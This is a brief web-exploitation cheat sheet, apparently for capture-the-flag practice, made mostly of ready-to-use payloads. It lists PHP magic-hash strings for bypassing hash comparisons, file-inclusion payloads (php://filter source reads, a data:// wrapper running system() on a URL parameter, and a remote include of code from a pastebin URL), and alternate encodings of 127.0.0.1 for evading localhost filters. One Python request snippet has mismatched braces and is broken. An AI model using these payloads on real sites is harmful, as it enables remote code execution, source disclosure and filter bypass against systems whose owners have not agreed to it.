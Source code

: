 > Use python requests

```python
import requests

req = requests.post('주소', data={'name': value, cookies={'PHPSESSID': session})
```

```python
import requests
head={'user-agent': 'Test'}
req = requests.get(ADDRESS, headers=head)
```

<br />

> Use cURL

```shell
curl -d "id=admin&pw=admin&press=Login" ADDRESS
```

```shell
curl ADDRESS -H 'header: header' --data 'data=data'
```

<br />

> Magic hash

```php
"0e1354" == "0e87453" // true
"0" == "0e7124511451155" //true
"0" == md5("240610708") // true
"0" == sha1("w9KASOk6Ikap") // true
md5("QLTHNDT") == md5("QNKCDZO") // true
```

[Link](https://www.whitehatsec.com/blog/magic-hashes/)

<br />

> LFI & RFI

```
http://URL/?page=php://filter/convert.base64-encode/resource=index.php

http://URL/?page=php://filter/convert.base64-decode/resource=./upload/abcde

http://URL/?page=data://text/plain,%3Cxmp%3E%3C?php%20system($_GET[%27x%27]);&x=ls%20-al

http://URL/?page=http://pastebin.com/raw/abcd/?&x=ls%20-al
```

<br />

> 127.0.0.1

```
http://2130706433

http://0x7f000001

http://0x7f.0x00.0x00.0x01

http://017700000001

http://0177.000.000.01
```

